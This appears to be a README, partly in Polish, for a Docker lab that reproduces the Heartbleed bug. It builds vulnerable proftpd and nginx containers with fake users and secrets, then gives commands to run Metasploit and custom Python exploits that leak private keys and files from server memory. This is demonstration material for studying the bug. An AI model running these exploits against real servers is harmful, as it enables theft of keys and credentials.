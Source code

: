 Design
=====

Docker images:

1. proftpd-bleed - stawia serwer proftpd (przykladowy user: testuser/bordodeszato2009)
 korzystajacy z openssl 1.0.1f
2. ftp-bystander - co chwile loguje sie na proftpd-bleed i uploaduje plik credentials.php z danymi do bazy danych i kluczem do API platnosci24
3. nginx-bleed - stawia serwer nginx korzystający z openssl 1.0.1f, ktory umożliwia ściagniecie pliku confidential.txt zalogowanemu userowi (przykladowy user: testuser/bordodes)
4. http-bystander - co chwile loguje sie na nginx-bleed i sciaga confidential.txt
5. metasploit - uzywajac metasploita wyciaga privkey serwera
6. exploit - uzywajac naszego exploita w Pythonie stara sie znalezc w dumpie plik PHP lub string "CONFIDENTIAL"

Repo + docker hub
====

https://github.com/kacperzuk/heartbleed

FIXME: dockerhub, jak juz bedzie

Usage
======

Run vulnerable FTP server
```
cd proftpd-bleed
docker build -t proftpd-bleed .
docker run -p 2121:21 -p 30000-30009:30000-30009 -it --rm --name=proftpd-bleed proftpd-bleed
```

Test connection:
```
$ openssl s_client -connect localhost:2121 -starttls ftp
$ curl -k --ftp-ssl ftp://localhost:2121/ --user testuser:bordodeszato2009
$ curl -vk --ftp-ssl ftp://localhost:2121/ --user testuser:bordodeszato2009
```

Run a fake-user that uploads credentials.php to server few times a second:
```
cd ftp-bystander
docker build -t ftp-bystander .
docker run --link proftpd-bleed:ftpd -it --rm --name=ftp-bystander ftp-bystander
```

Run exploit from metasploit (it extracts private key and dumps it into /tmp/msf4/loot):
```
cd metasploit
docker build -t metasploit .
docker run --link proftpd-bleed:ftpd --rm -it -v /tmp/msf4:/root/.msf4 metasploit /usr/local/bin/init.sh ftp-hb.rc
```

Run authtls-heartbleed.py exploit (it tries to extract PHP file, but won't succeed ever because proftpd is forking):
```
cd exploit
docker build -t exploit .
docker run --link proftpd-bleed:ftpd --rm -it exploit python3 authtls-heartbleed.py ftpd 21
```

Run vulnerable HTTPS server
```
cd nginx-bleed
docker build -t nginx-bleed .
docker run -p 4443:443 -it --rm --name=nginx-bleed nginx-bleed
```

Test connection:
```
$ openssl s_client -connect localhost:4443
$ curl -k https://localhost:4443/confidential.txt --user testuser:bordodes
$ curl -vk https://localhost:4443/confidential.txt --user testuser:bordodes
```

Run a fake-user that uploads credentials.php to server few times a second:
```
cd http-bystander
docker build -t http-bystander .
docker run --link nginx-bleed:httpd -it --rm --name=http-bystander http-bystander
```

Run exploit from metasploit (it extracts private key):
```
cd metasploit
docker build -t metasploit .
docker run --link nginx-bleed:httpd --rm -it -v /tmp/msf4:/root/.msf4 metasploit /usr/local/bin/init.sh http-hb.rc
```

Run https-heartbleed.py exploit (nginx isn't forking, so it should find the confidential file):
```
cd exploit
docker built -t exploit .
docker run --link nginx-bleed:httpd --rm -it exploit python3 https-heartbleed.py httpd 443
```


Random info:
======

1. stary openssl nie potrafi zainstalowac juz sobie man pages z nowym perlem, wiec zamaist make install trzeba make install_sw
2. proftpd jest gupie i nie linkuje poprawnie libow wymaganych przez openssl, trzeba dodac `-ldl` do `LDFLAGS`
3. nowe gcc jest gupie i wydaje mi sie, ze `-ldl` nie jest potrzebne wiec i tak go nie uzywa. trzeba dodac `-Wl,--no-as-needed` przed `-ldl` w `LDFLAGS`
4. FTP w passive mode wymaga przekierowania wiecej niz jednego portu...
